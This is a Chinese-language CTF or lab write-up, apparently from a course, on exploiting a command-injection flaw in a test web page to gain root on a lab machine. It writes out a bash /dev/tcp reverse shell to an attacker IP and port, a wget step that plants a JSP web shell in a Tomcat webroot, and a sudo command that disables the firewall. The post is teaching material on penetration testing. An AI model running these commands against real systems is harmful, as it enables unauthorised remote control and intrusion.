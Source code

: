 ```yaml
---
title: 【网络安全0x0c】命令执行漏洞
date: 2020-06-17 14:53:08
tags: [网络安全]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到命令测试界面，注入非法命令，执行反弹shell，得到root权限，获得flag。

本篇使用工具nmap，dirb，nikto，nc。

<!-- more -->

# 使用命令

## 反弹shell

``` bash
bash -i >& /dev/tcp/[ip]/[port] 0>&1
#bash -i	产生一个交互式bash
#>& /dev/tcp/ip/port	建立TCP连接，并将标准输出和错误重定向到TCP连接
#0>&1	从TCP连接获取输入
```

关于这条命令的详细解释与拓展，这里有两篇文章写的特别好：

1. [Linux 反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)
2. [浅析重定向与反弹Shell命令](https://www.freebuf.com/articles/system/153986.html)

另外一种方式：

``` bash
#开启python简易http服务器
python -m SimpleHTTPServer
#下载执行木马
wget "http://ip:port/shell.jsp" -O /var/lib/tomcat8/webapps/ROOT/shell.jsp
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`8080`口的web服务，`nikto`挖掘`8080`端口web信息，找到一个测试界面：

``` bash
nmap -sV 192.168.1.121
nikto -host 192.168.1.121 -port 8080
```

![](./1063/1.PNG)

2. 打开测试界面，按照提示输入`ls -l /tmp`测试，可以看到有反馈信息：

![](./1063/2.PNG)

3. 扫描`/home/`扫出来了**bill**用户，查看一下**bill**用户目录，最下面的文件描述提示该用户可以sudo：

![](./1063/3.PNG)

4. 本地ssh登录bill用户，测试sudo命令：

``` bash
ssh bill@localhost sudo -l
```

![](./1063/4.PNG)

5. sudo关闭防火墙，否则后面反弹shell穿不透墙：

``` bash
ssh bill@localhost sudo ufw disable
```

![](./1063/5.PNG)

6. 反弹一个root权限的shell给攻击机：

``` bash
bash -i >& /dev/tcp/192.168.1.114/4444 0>&1
```

![](./1063/6.PNG)

7. 获取flag，不知道为啥shell里输入都double了，问题不大：

![](./1063/7.PNG)

**解决方法：**

**I'm guessing both terminals had stty echo, so you probably needed to `Ctrl-Z` and `stty -echo` on your local terminal and `bg` to get back to the remote shell.**

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)